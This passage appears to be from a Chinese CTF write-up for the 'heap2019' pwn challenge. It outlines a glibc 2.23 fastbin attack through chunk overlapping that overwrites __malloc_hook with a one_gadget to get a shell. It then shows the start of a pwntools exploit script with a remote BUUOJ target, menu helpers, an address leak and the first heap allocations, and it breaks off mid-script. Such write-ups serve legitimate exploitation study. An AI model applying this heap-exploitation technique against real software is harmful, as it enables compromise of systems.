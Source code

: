 伪造好后利用overlapping修改`0xd0`大小的`fast bin`中`chunk`的`fd==fake_chunk`，之后申请两次即可得到`__malloc_hook`处的内存，修改其为`one_gadget`即可`get shell`。

exp:

```py
from pwn import *
context(os = 'linux',arch = 'amd64',log_level = 'debug')
       
mode = 1
if mode == 1:
    fang = process("./heap2019")  
else:
    fang = remote("node4.buuoj.cn",28812)

def debug():
    gdb.attach(fang)
    pause()

def alloc2(size):
    fang.recvuntil("4.exit\n")
    fang.sendline(str(1))
    fang.recvuntil("Content length:\n")
    fang.sendline(str(size))

def alloc(size,cont):
    fang.recvuntil("4.exit\n")
    fang.sendline(str(1))
    fang.recvuntil("Content length:\n")
    fang.sendline(str(size))
    fang.recvuntil("Content:\n")
    fang.send(cont)

def dele(idx):
    fang.recvuntil("4.exit\n")
    fang.sendline(str(3))
    fang.recvuntil("Content id:\n")
    fang.sendline(str(idx))

def edit(cont):
    fang.recvuntil("4.exit\n")
    fang.sendline(str(2))
    fang.recvuntil("Comment:\n")
    fang.send(cont)

# libc = ELF("./libc-2.23.so")
libc = ELF("/home/functionmain/桌面/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so")

# gdb.attach(fang,'b *(0x555555400000 + 0xc1d)')
# pause()

fang.recvuntil("4.exit\n")
fang.sendline(str(2019))
fang.recvuntil("0x")
elf_base = int(fang.recv(12),16) - 0x202040


alloc(0x98,b'a' * 0x98) # 0

payload = b'a' * 0x98
alloc(0x98,payload) # 1

alloc(0x98,payload) # 2

pd = b'b' * 0x98
```